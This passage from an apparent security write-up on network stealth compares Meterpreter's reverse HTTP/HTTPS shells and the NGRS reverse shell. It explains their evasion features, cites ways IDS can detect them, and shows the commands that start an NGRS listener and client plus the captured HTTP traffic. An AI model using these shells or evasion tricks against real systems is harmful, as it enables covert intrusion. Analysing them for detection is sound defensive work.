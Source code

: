 ####0x03.03 -- Meterpreter Options####
Meterpreter gives you a lot of different options for shells. While Meterpreter is often times overkill, it does have some cool features. While the topic of this paper is stealth in networking, Meterpreter implements some stealthy practices while running as well. It hollows out other processes and runs inside their address space as opposed to forking a new process (stealthy) and it goes to great lengths to avoid touching the disk (stealthy). It can also comes in a variety of formats (PE,elf,PHP,Java....), allowing for great versatility while still providing a consistent interface.  

On the subject of network stealth as well, Meterpreter has some neat features. It is capable of running across a variety of protocols (TCP,UDP,HTTP....) which helps a lot in trying to get out of a locked-down network. The most stealth conscious of these are the reverse HTTP and reverse HTTPS meterpreter though. With these, the "HTTP client" (the owned machine/ slave) packages responses from Meterpreter as HTTP/S requests that are sent to an "HTTP server" (the attacker machine / master). The master packages its side of the session as HTTP responses. This makes the Meterpreter session look quite similar to normal HTTP traffic. The HTTPS Meterpreter works exactly the same except for it adds an additional layer of encryption. The problem for the would-be-stealthy attacker though is that both of these options can be detected by IDS. 

How, you ask, can the Meterpreter HTTPS shell be detected? Some great [research](http://www.netresec.com/?page=Blog&month=2011-07&post=How-to-detect-reverse_https-backdoors) by Erik Hjelmvik reveals a number of problems. Firstly, the X.509 certificates automatically generated by Metasploit are invalid (obviously). Secondly, the contents of the certificate fields contain high amounts of entropy. Thirdly, the DNS hosts specified in the CN field don't resolve to a real host. In a tightly secured network, some of these problems might already set off alarms, but if they aren't already detected by IDS, a signature could easily enough be written. That being said, this reverse HTTPS shell is pretty slick and could be really difficult to detect with a bit more work.

####0x03.04 -- [NGRS - Next Generation Reverse Shell](http://www.securebits.org/projects/giant-reverse-0.9.5.tar.gz)####
The Next Generation Reverse Shell (NGRS) from Ar Samhuri offers many different options for obfuscation and steganography. This shell allows you to tunnel traffic through HTTP, FTP, POP3 and NTP. The client and server are written in C which helps a lot with portability (you could compile it on a toaster). This is a no-nonsense shell that seems to work well.

As for the actual mechanics of mechanics of the communications, I was primarily looking at the HTTP offering. I fired up the gr binary that gcc spit out with the following options:

{% highlight bash %}
#on the server (master)
./gr -L
#on the client (slave)
./gr -s 192.168.0.123
{% endhighlight %}

The server was then given a lovely shell, boldly stating ```[192.168.0.123]$```. I proceeded to run ```whoami``` and ```ls``` and my responses came back quickly and in proper formatting. Functionally, it seems like a shell. Bravo. I shut down the shell and took a look at the pcap that I had recorded with tcpdump. The first thing I noticed is that what I had captured looked like a fairly benign HTTP session. Upon further inspection, I saw the following HTTP traffic:

- An ```HTTP GET``` request for "/I/am/ready" sent to 192.168.0.123 with the ```Host``` header set to 'www.securebits.org'
- An ```HTTP/1.1 200 OK``` Response from the server containing ```<html>whoami</html>```
- An ```HTTP POST``` request for "/results" with the data ```mastahyeti\n```
- et cetera....
